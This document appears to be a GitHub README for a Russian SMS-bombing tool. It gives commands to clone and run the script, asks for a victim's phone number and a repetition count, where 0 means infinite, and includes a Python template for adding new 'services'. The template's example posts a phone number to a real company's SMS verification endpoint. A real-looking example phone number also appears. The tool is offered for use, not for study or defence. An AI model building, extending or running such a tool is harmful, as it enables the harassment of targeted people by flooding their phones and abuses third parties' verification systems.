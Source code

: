 # sms-hal-bomber
SMS-BOMBER (Russian)

INSTRUCTION

# 1 - download
git clone https://github.com/halwarsing/sms-hal-bomber.git && cd sms-hal-bomber

# 2 - run python script main.py
python3 main.py

# 3 - agree licence
y - yes;
n - no;

# 4 - number phone
example - 79226111046 - it's not my phone number

# 5 - number of repetitions
0 - infinite

# 7 add your own services
If you know the services better, you can add your own, here's an example.

def method(): # method post or get
        method = "post"
        return method

def json(): # method json - false or true
        json = False
        return json

def name(): # name service
        name = "worki"
        return name

def url(pn): # url service
        url = "https://shop.vsk.ru/ajax/auth/postSms/"
        return url

def data(phone): # data or json
        data = {"phone": phone}
        return data

def error(): # error msg when an error occurs in the service
        error = '{"message":"Превышено количество попыток отправки кода. Попробуйте позже или обратитесь в службу поддержки.","errors":[{"message":"Превышено количество попыток отправки кода. Попробуйте позже или обратитесь в службу поддержки.","key":null,"code":null}]}'
        return error

Thanks for watching!
